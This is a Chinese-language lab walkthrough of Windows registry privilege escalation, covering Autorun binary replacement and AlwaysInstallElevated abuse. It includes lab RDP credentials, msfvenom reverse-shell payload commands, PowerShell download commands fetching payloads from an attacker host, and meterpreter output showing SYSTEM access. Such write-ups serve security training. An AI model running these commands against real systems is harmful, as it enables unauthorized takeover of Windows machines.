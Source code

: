 
# rdp连接
user登录
> rdesktop -u user -p password321 10.10.86.123 -r sound:on -g workarea

TCM登录
> rdesktop -u TCM -p Hacker123 10.10.86.123 -r sound:on -g workarea

# 1.注册表提权-自动运行（ Registry Escalation - Autorun）

## 前提
1. Autorun文件可写（可替换）
2. 需要另一个用户登录才会触发

## 思路
Autorun，就是启动时自动运行，这个思路时通过修改注册表里的二进制文件（用msfvenom生成一个同名的反弹shell文件），替换原有的二进制文件。当其他用户登录系统时，触发注册表里的Autorun文件，从而执行我们替换的payload，然后我们就得到了登录用户的权限。


## 怎么利用?

靶机：
1. 运行Autoruns64.exe检查自动运行的文件。（Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe）
2. 点击登录选项（In Autoruns, click on the ‘Logon’ tab.）
3. 在显示的结果当中，留意“我的程序”指向的二进制文件。（From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.）
4. 用accesschk64.exe检查这个Autorun文件的读写权限。（ In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"）
5. 从上面的检查结果中可以知道所有人对这个Autorun文件有读写权限（From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.）

攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

用msfvenom编译同名Autorun文件：

> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f exe -o program.exe


从靶机下载文件program.exe
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/program.exe','C:\Program Files\Autorun Program\program.exe')"

等待用户登录，触发反弹shell。


# 2.注册表提权-AlwaysInstallElevated (Registry Escalation - AlwaysInstallElevated)

## 前提
如果注册表里查询到这两个属性的值都是 0x1，那么任何用户都拥有以``` NT AUTHORITY\SYSTEM```身份运行或者安装```*.msi```文件的权限
>  reg query HKLM\Software\Policies\Microsoft\Windows\Installer

>  reg query HKCU\Software\Policies \Microsoft\Windows\Installer

## 思路
用msfvenom生成一个```*.msi```文件，在靶机里执行这个文件，就可以提权到```NT AUTHORITY\SYSTEM```

## 怎么利用?

### 攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

6. 生成反弹的.msi文件
> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f msi -o setup.msi

### 靶机：
7. 从靶机下载文件
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/setup.msi','C:\temp\setup.msi')"

8. 执行```setup.msi```文件

攻击机收到反弹shell，拿到最高权限
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Sending stage (175174 bytes) to 10.10.86.123
[*] Meterpreter session 2 opened (10.13.21.169:4444 -> 10.10.86.123:49329) at 2021-11-15 09:22:26 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```